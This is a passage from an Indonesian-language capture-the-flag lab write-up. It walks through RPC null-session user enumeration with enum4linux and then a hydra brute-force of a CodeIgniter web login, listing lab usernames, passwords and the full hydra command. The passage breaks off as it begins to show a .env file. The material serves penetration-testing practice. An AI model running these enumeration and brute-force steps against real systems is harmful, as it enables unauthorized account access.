 ### RPC Enumeration

- Sama seperti challenge-challenge sebelumnya, kita bisa memanfaatkan celah null session pada RPC service untuk bisa melakukan enumerasi.
- Awalnya, ketika saya coba manual enumerasi user pada RPC service menggunakan perintah `enumdomusers`, hanya ada terdapat 7 user saja, tetapi ketika menggunakan tool: `enum4linux` terdapat 2 user baru, yaitu:
  - **jay_payakumbuah**, dan
  - **ayyub**.
- Jadi, total ada **9 user** yang berguna untuk nantinya.

![Moonstone-07](/images/hacktrace-ranges_boot2root3-07.png)

### Finding The Secrets

- Diketahui bahwa aplikasi yang berjalan di port **8080** dan dibuat menggunakan **CodeIgniter 4** (PHP-based web framework).
- Ketika dibuka, muncul halaman login. Langsung saja saya coba brute force login http-form menggunakan informasi user dan password yang sudah diperoleh sebelumnya menggunakan tool: `hydra` dengan provide list user dan password yang telah diketahui sebelumnya.

`users.txt`:

```txt
ayyub
donghyuk_kim
yeji_hwang
azkira_kim
bryan_jung
nurul_lee
yuna_shin
hanbin_kim
jay_payakumbuah
```

`pass.txt`:

```txt
P@ssw0rd
T4da1mA!
Lzj*7BL%#fMhq
```

- Berikut adalah full command hydra untuk bruteforce http form loginnya (bisa juga pakai NSE `http-form-brute` dari `nmap`).

```bash
hydra -L users.txt -P pass.txt -s 8080 10.1.2.232 http-post-form "/authenticate:username=^USER^&password=^PASS^:login_failed"
# You can check the path and login parameter by intercepting the traffic via burp suite.
```

- Terdapat beberapa file yang menarik perhatian saya, yaitu file `yourspace/.env` dan `yourspace/public/info.asp`.

`.env`:
